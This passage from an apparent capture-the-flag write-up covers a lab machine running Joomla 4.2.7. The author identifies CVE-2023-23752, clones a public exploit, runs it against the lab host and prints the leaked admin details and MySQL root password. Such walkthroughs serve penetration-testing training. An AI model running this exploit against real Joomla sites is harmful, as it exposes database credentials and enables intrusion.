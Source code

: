 Now that we see that it consists of a Joomla CMS, looking at the version using [this path](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla#version), we can see that it uses version 4.2.7:

![Version 4.2.7 on Joomla](/assets/images/Office/version-4.2.7-joomla.png)

Also, looking at [vulnerabilities for this version](https://www.cvedetails.com/version/1140587/Joomla-Joomla--4.2.7.html), we can see that it has a [unauthenticated information disclosure](https://www.cvedetails.com/cve/CVE-2023-23752/) which can give attackers access to plaintext credentials for the MySQL database. I will use [this exploit](https://github.com/Acceis/exploit-CVE-2023-23752) to exploit this vulnerability and we can see credentials belonging to user root for MySQL:

```bash
❯ git clone https://github.com/Acceis/exploit-CVE-2023-23752
Cloning into 'exploit-CVE-2023-23752'...
remote: Enumerating objects: 24, done.
remote: Counting objects: 100% (24/24), done.
remote: Compressing objects: 100% (20/20), done.
remote: Total 24 (delta 8), reused 15 (delta 3), pack-reused 0
Receiving objects: 100% (24/24), 75.33 KiB | 521.00 KiB/s, done.
Resolving deltas: 100% (8/8), done.
❯ cd exploit-CVE-2023-23752
❯ ruby exploit.rb
Usage:
  exploit.rb <url> [options]
  exploit.rb -h | --help
❯ ruby exploit.rb http://10.10.11.3
Users
[474] Tony Stark (Administrator) - Administrator@holography.htb - Super Users

Site info
Site name: Holography Industries
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: root
DB password: H0lOgrams4reTakIng0Ver754!
DB name: joomla_db
```